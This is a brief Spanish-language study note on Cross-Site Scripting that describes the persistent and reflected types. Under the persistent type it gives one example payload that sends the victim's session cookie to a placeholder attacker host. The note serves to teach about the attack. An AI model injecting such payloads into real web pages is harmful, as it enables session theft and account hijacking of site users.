 Esto es muy tiene la misma intencion que un SQL Injection, pero esto aplica a las aplicaciones web, consiste en inyectar codigo sobre algun campo de entrada de datos que ofrezca.

## Tipos

**Cross Site Scripting persistente**
Si el codigo insertado se queda almacenado en el servidor, por ejemplo formando parte de contribucion en un foro, el ataque se dice que es persitente, ya que cualquier usuario que ingrese al foro podra leer dicha contribucion inocente pero el *codigo inyectado por el atacante sera ejecutado por el navegador y puede ocacionar un robo de la cookie-session.*

	<script>document.write("<img src="http://ip-atacante/img.jpeg?cookie='+ document.cookie +'">")</script>

**Cross Site Scripting reflejado**
Pero si el codigo que insertamos no se queda almacenad en la web, sino que va embebido centro de un enlace que se hace llegar de algun modo a la victima para que el ingrese en el, se dice que este tipo de ataque es reflejado.
